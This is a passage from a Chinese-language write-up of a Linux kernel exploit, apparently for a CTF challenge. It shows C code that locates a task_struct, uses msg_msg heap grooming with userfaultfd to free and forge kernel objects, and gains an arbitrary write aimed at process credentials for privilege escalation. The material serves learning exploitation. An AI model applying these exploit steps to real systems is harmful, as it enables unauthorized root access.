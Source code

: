 ```c
    }

    // read pid
    cur_id = *((uint32_t *)((uint64_t)dump + 0x10d8));
    printf("[+] cur:\t0x%lx, pid:\t%d\n", cur, cur_id);
    if (cur_id == pid) {
      task_struct = cur;
      break;
    }
    // next
    cur = *((uint64_t *)((uint64_t)dump + 0xfe0)) - 0x298;
  }
  printf("[+] task_struct:\t0x%lx\n", task_struct);
```

## 堆风水构造任意地址写

下面到了最关键的部分，我们将通过堆风水与userfaultfd实现任意地址写，从而提权！

首先，接收QID#1的所有消息，不带`MSG_COPY`标志。这样QID#1中的kmalloc-64和两个kmalloc-4096都被free了，且先被free的是msg_msg部分。

![https://syst3mfailure.io/assets/images/wall_of_perdition/5.png](https://gitee.com/slientNoir/image-bed/raw/master/image-bed/2022-03-18-52863bf05c8addae24e0e806de3cd178-e835ac.png)

接着，我们再申请一个消息队列QID#2，发送一个0x1ff8 - 0x30大小的消息，msg_msg使用的正是原来的segment结构，而其next指向了原本的msg_msg结构，这部分的地址是我们已知的，即`list_head→next`。同时，我们在其拷贝msg_msg消息数据时，使用userfaultfd卡住。布局如下图：

![https://syst3mfailure.io/assets/images/wall_of_perdition/7.png](https://gitee.com/slientNoir/image-bed/raw/master/image-bed/2022-03-18-1497edaba6180bf0f0f874817c827846-940cf7.png)

在userfault handler中，修改QID#0的消息的next指向QID#2消息的segment，修正其`list_head`和`m_ts`，然后接收所有消息，不带`MSG_COPY`标志。这样，QID#2的segment就会被free了。

```c
    printf("[+] page fault: %p\n", (void *)uf_msg.arg.pagefault.address);
    printf("[*] Modified msg0 next to msg2's segment\n");
    user_rule_t *rule = calloc(1, sizeof(user_rule_t));
    ((struct msg_msg *)rule)->m_list.next = (void *)prev;
    ((struct msg_msg *)rule)->m_list.prev = (void *)prev;
    ((struct msg_msg *)rule)->m_ts = 0x10;
    ((struct msg_msg *)rule)->m_type = 1;
    rule->idx = 0;
    rule->type = OUTBOUND;
    ip_value_to_str(next, rule->ip, 16);
    ip_value_to_str((next) >> 32, rule->netmask, 16);
    ioctl(global_fd, EDIT_RULE, rule);
    char buf[0x10];
    msgrcv(qid[0], buf, 0x10, 0, IPC_NOWAIT | MSG_NOERROR);

    printf("[*] Prepare fake msg struct\n");
    bzero(msg_buf, sizeof(msg_buf));
    ((struct msg_msg *)(msg_buf + 0xfd0 - 0x10))->next =
        (void *)(task_struct + 0x530);
    ((struct msg_msg *)(msg_buf + 0xfd0 - 0x10))->m_ts = 0xff8;
    ((struct msg_msg *)(msg_buf + 0xfd0 - 0x10))->m_type = 1;
    printf("[*] Now userfault 2\n");
    ((msg *)(target2 + PAGE_SIZE - 0x10))->mtype = 1;
    send_msg(qid[3], target2 + PAGE_SIZE - 0x10, 0xff8, 0);
```
